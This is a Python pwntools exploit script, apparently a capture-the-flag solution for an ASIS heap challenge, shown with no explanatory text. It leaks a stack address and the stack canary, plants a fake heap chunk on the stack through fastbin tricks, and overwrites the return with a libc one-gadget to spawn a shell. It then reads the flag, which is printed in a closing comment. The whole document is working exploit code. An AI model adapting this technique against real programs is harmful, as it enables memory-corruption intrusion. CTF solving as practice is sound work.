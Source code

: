 ```python
x = print_one(0)
xx = re.findall('name: (.*)\nkind', x)[0]
stack = u64(xx.ljust(8, '\x00'))
print 'stack', hex(stack)

delete(6)
canary_addr = stack - 0x100 + 1
create(flat(canary_addr, heap+0x30), flat(heap+0x10, heap+0x30), 1)
x = print_one(0)
xx = re.findall('name: (.*)\nkind', x)[0]
canary = u64('\x00'+xx[:7])
print 'canary:', hex(canary)

# switch order
delete(6)
create(flat(heap+0x10, heap+0x30), flat(heap+0x10, heap+0x30), 1)

edit(0, 'b', 'b', 2, 'n')
delete(1)

fake_pos = stack-0x11f
print 'fake_pos:', hex(fake_pos)
create(flat(fake_pos), 'a', 1)
# fake chunk on stack
create(flat(heap+0x1b0, heap+0x210), '\x00'*7+flat(0x2100), 1, stack='1\x21\x00\x00')

# puts address on heap
delete(3)
create(flat(fake_pos+0x10), flat(fake_pos+0x10), 1)

# reset fastbin
delete(4)
delete(0)

create(flat(heap+0x160), 'b', 1,)
#raw_input("@")
magic = libc + 0xf1147
print 'magic:', hex(magic)
r.recvrepeat(1)
r.sendline('1')
r.sendlineafter('>', 'AAAA')
r.sendafter('>', flat(canary>>8)[:-1]+flat(0, magic))
r.sendlineafter('>', '6')
sleep(1)
r.sendline('ls /home/pwn; cat /home/pwn/flag')

#embed()
r.interactive()

# ASIS{5aa9607cca34dba443c2b757a053665179f3f85c}
```
